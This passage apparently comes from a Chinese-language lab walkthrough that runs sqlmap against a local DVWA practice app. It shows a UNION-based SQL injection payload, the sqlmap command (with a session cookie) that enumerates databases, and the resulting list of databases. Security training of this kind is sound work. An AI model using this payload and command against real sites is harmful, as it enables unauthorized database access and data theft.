 ```php
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716a6b6271,0x6e72425773714b684f666f586b525163774363526152416e53425343646a6d7154656b7663454d58,0x71717a7671)-- ejLT&Submit=Submit
---
[11:27:08] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 7.0.13
back-end DBMS: MySQL 5
[11:27:08] [INFO] fetched data logged to text files under 'C:\Users\cmk\.sqlmap\output\127.0.0.1'

[*] shutting down at 11:27:08

```

## 获取数据库

```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" --dbs

//成功溢出如下

[11:32:13] [INFO] resuming back-end DBMS 'mysql'
[11:32:13] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716a6b6271,0x6e72425773714b684f666f586b525163774363526152416e53425343646a6d7154656b7663454d58,0x71717a7671)-- ejLT&Submit=Submit
---
[11:32:13] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 7.0.13
back-end DBMS: MySQL 5
[11:32:13] [INFO] fetching database names
available databases [48]:
[*] bak
[*] ccms
[*] dijie-dev
[*] dvwa
[*] firekylin
[*] information_schema
[*] lcm
[*] mysql
[*] nawanr
[*] operator
[*] weixin
[*] yii2-start
[*] yii2-starter-kit
[*] yii2-starter-kit_dev
[*] yii2_rbac
[*] yii2_test
[*] yii2basic
[*] yiisns

[11:32:14] [INFO] fetched data logged to text files under 'C:\Users\cmk\.sqlmap\output\127.0.0.1'

[*] shutting down at 11:32:14
```
